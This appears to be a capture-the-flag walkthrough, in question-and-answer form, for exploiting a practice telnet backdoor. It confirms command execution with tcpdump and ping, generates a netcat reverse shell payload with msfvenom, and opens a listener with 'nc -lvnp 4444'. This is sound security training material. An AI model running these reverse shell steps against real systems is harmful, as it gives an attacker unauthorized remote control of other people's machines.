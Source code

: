 - No answer needed
 
Great! It's an open telnet connection! What welcome message do we receive?

- SKIDY'S BACKDOOR.
 
 
Let's try executing some commands, do we get a return on any input we enter into the telnet session? (Y/N)

- N
 
Hmm... that's strange. Let's check to see if what we're typing is being executed as a system command.

- No answer needed
 
Start a tcpdump listener on your local machine.

If using your own machine with the OpenVPN connection, use:

sudo tcpdump ip proto \\icmp -i tun0
If using the AttackBox, use:

sudo tcpdump ip proto \\icmp -i ens5
This starts a tcpdump listener, specifically listening for ICMP traffic, which pings operate on.

- No answer needed
 
Now, use the command "ping [local THM ip] -c 1" through the telnet session to see if we're able to execute system commands. Do we receive any pings? Note, you need to preface this with .RUN (Y/N)

- Y
 
Great! This means that we are able to execute system commands AND that we are able to reach our local machine. Now let's have some fun!

- No answer needed
 
We're going to generate a reverse shell payload using msfvenom.This will generate and encode a netcat reverse shell for us. Here's our syntax:

  "msfvenom -p cmd/unix/reverse_netcat lhost=[local tun0 ip] lport=4444 R"

- -p = payload
- lhost = our local host IP address (this is your machine's IP address)
- lport = the port to listen on (this is the port on your machine)
- R = export the payload in raw format

What word does the generated payload start with?

- mkfifo
 
Perfect. We're nearly there. Now all we need to do is start a netcat listener on our local machine. We do this using:

"nc -lvnp [listening port]"

What would the command look like for the listening port we selected in our payload?


- nc -lvnp 4444
 